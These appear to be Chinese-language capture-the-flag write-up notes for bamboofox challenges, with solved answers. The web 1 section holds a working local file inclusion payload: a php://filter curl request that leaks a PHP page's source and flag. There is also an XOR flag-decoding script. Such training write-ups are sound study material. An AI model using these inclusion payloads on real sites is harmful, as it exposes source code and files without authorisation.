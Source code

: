 # bamboofox.cs.nctu.edu.tw

[toc]

## AIS3 web 1 [50] (Solve)

1. 分析連結可能含有 LFI 問題，輸入 ././ 測試
2. http://bamboofox.cs.nctu.edu.tw:11300/?page=././about
3. 採用 php://filter 構造相關參數
   1. curl 'http://bamboofox.cs.nctu.edu.tw:11300/?page=php://filter/convert.base64-encode/resource=index'
4. `echo 'PGEgaHJlZj0nP3BhZ2U9YWJvdXQnPiBhYm91dCA8L2E+IDxiciAvPgo8YSBocmVmPSc/cGFnZT10ZXN0Jz4gdGVzdCA8L2E+IDxiciAvPgo8YnI+Cjxicj4KPD9waHAKCiAgICAgICAgJHBhZ2UgPSAkX0dFVFsncGFnZSddOwoKICAgICAgICAkcGFnZSA9ICRwYWdlIC4gJy5waHAnOwogICAgICAgICRwYWdlID0gc3RyX3JlcGxhY2UoIi4uLyIsICIiLCAkcGFnZSk7CiAgICAgICAgaW5jbHVkZSggJHBhZ2UgKTsKCiAgICAgICAgLy8gdGhlIGtleSBpcyBCQU1CT09GT1h7cGhwX3dyYXBwZXJfcm9ja3N9Cg==' | base64 -d`
5. 解碼獲得 index.php 並且獲得 flag

## AIS3 web 3 [100]

1. 起手勢，透過 wappalyzer 分析服務
2. 簡略 fuzz 一下之後發現存在 /web3/admin/ 並且會被轉址，透過 curl 也只是看到轉址的 script

## [Reverse] 0x00 C [100] (Solve)

``` python
xor_flag = [72, 75, 71, 72, 69, 69, 76, 69, 82, 113, 105, 58, 110, 57, 85, 120, 57, 124, 59, 57, 125, 59, 100, 109, 85, 59, 100, 85, 105, 119]
flag = ""
for c in xor_flag:
  flag += chr(c ^ 10)

print(flag)
```



## little-asm [50]

用 angr 解，無法直接獲得 flag

需要增加 約束條件